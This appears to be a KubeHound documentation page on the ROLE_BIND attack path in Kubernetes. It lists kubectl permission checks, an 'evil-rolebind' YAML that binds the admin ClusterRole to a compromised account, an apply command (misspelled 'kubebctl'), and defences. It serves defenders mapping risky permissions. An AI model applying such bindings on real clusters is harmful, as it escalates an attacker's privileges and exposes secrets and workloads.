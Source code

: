 # ROLE_BIND

A role that grants permission to create or modify `(Cluster)RoleBindings` can allow an attacker to escalate privileges on a compromised user.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../vertices/PERMISSIONSET.md)  | [PermissionSet](../vertices/PERMISSIONSET.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details

An attacker with sufficient permission can create a `RoleBinding` with the default existing admin `ClusterRole` and bind it to a compromised user. By creating this `RoleBinding`, the compromised user becomes highly privileged, and can execute privileged operations in the cluster (reading secrets, creating pods, etc.).

## Prerequisites

Ability to interact with the K8s API with a role allowing modify or create access to `(Cluster)RoleBindings`.

See the [example pod spec](../../test/setup/test-cluster/attacks/ROLE_BIND.yaml).

## Checks

Simply ask kubectl:

```bash
kubectl auth can-i create rolebinding
kubectl auth can-i bind role
```

## Exploitation

Create the `(Cluster)RoleBinding` definition as below:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: evil-rolebind
  namespace: default
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: admin
subjects:
  - kind: ServiceAccount
    name: <compromised user>
    namespace: default
```

Create the binding via kubectl:

```bash
kubebctl apply -f evil-rolebind-spec.yaml
```

## Defences

### Monitoring

+ Monitor anomalous access to the K8s authorization API including creating privileged `(Cluster)RoleBinding` from with a pod, unusual `User-Agent` headers and other outliers.

### Implement least privilege access

Creating `(Cluster)RoleBinding` is a very powerful privilege and should not be required by the majority of users. Use an automated tool such a KubeHound to search for any risky permissions and users in the cluster and look to eliminate them.

## Calculation

+ [RoleBind](../../pkg/kubehound/graph/edge/role_bind.go)
+ [RoleBindNamespace](../../pkg/kubehound/graph/edge/role_bind_namespace.go)

## References:

+ [Official Kubernetes Documentation:Using RBAC Authorization](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#rolebinding-and-clusterrolebinding)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)
